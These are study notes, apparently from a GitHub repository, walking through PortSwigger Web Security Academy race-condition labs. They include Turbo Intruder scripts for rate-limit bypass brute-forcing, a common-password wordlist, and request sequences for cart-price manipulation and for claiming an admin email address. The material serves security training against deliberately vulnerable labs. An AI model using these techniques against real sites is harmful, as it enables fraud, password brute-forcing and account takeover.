 ### Lab: Limit overrun race conditions

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log in to your account with the following credentials: wiener:peter. 

## Detecting and exploiting limit overrun race conditions with Turbo Intruder

To use the single-packet attack in Turbo Intruder:

-    Ensure that the target supports HTTP/2. The single-packet attack is incompatible with HTTP/1.
-    Set the `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine.
-    When queueing your requests, group them by assigning them to a named gate using the gate argument for the `engine.queue()` method.
-    To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```        

For more details, see the `race-single-packet-attack.py` template provided in Turbo Intruder's default examples directory.

### Lab: Bypassing rate limits via race conditions

This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

-    Work out how to exploit the race condition to bypass the rate limit.
-    Successfully brute-force the password for the user carlos.
-    Log in and access the admin panel.
-    Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter. 
> 123123
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
1234567890
michael
x654321
superman
1qaz2wsx
baseball
7777777
121212
000000

Turbo Intruder script:
```py
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
The table give us the password

![alt text](image-13.png)
## Multi-endpoint race conditions

Perhaps the most intuitive form of these race conditions are those that involve sending requests to multiple endpoints at the same time.

Think about the classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page.

A variation of this vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. The state machine for the order status might look something like this:

![alt text](image-12.png)

In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.

### Connection warming

Back-end connection delays don't usually interfere with race condition attacks because they typically delay parallel requests equally, so the requests stay in sync.

It's essential to be able to distinguish these delays from those caused by endpoint-specific factors. One way to do this is by "warming" the connection with one or more inconsequential requests to see if this smoothes out the remaining processing times. In Burp Repeater, you can try adding a GET request for the homepage to the start of your tab group, then using the Send group in sequence (single connection) option.

If the first request still has a longer processing time, but the rest of the requests are now processed within a short window, you can ignore the apparent delay and continue testing as normal.

If you still see inconsistent response times on a single endpoint, even when using the single-packet technique, this is an indication that the back-end delay is interfering with your attack. You may be able to work around this by using Turbo Intruder to send some connection warming requests before following up with your main attack requests.

### Lab: Multi-endpoint race conditions

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log into your account with the following credentials: wiener:peter. 

**Overview**:

- The website let user put an item in cart in `POST /cart` with the data, for example `productId=2&redir=PRODUCT&quantity=1`

- The user purchase the item in the cart in `POST /cart/checkout`, which request's have the session which have the user's cart

To solve the lab, first have a item that the given accout can purchase, then send 3 request in parallel
- `GET /` this is to warm the connection
- `POST /cart`, add the Lightweight L33t Leather Jacket, with the data `productId=1&redir=PRODUCT&quantity=1`
- `POST /cart/checkout`, to purchase the previous item, which will also purchase the item we just put with the race condition

By sending these requests in parallel, the checkout process might process the cart contents before the addition of the jacket is fully registered, effectively purchasing the jacket at the price of the cheaper item.

## Single-endpoint race conditions

Sending parallel requests with different values to a single endpoint can sometimes trigger powerful race conditions.

>For this attack to work, the different operations performed by each process must occur in just the right order. It would likely require multiple attempts, or a bit of luck, to achieve the desired outcome.

Email address confirmations, or any email-based operations, are generally a good target for single-endpoint race conditions. Emails are often sent in a background thread after the server issues the HTTP response to the client, making race conditions more likely. 

### Lab: Single-endpoint race conditions

This lab's email change feature contains a race condition that enables you to associate an arbitrary email address with your account.

Someone with the address carlos@ginandjuice.shop has a pending invite to be an administrator for the site, but they have not yet created an account. Therefore, any user who successfully claims this address will automatically inherit admin privileges.

To solve the lab:

-    Identify a race condition that lets you claim an arbitrary email address.
-    Change your email address to carlos@ginandjuice.shop.
-    Access the admin panel.
-    Delete the user carlos

You can log in to your own account with the following credentials: wiener:peter.

You also have access to an email client, where you can view all emails sent to `@exploit-<YOUR-EXPLOIT-SERVER-ID>.exploit-server.net` addresses. 

For this challenge, send 2 request in parallel to solve the lab
```
POST /my-account/change-email

email=wiener@exploit-ID.exploit-server.net&csrf=....
```
```
POST /my-account/change-email

email=carlos@ginandjuice.shop&csrf=...
```

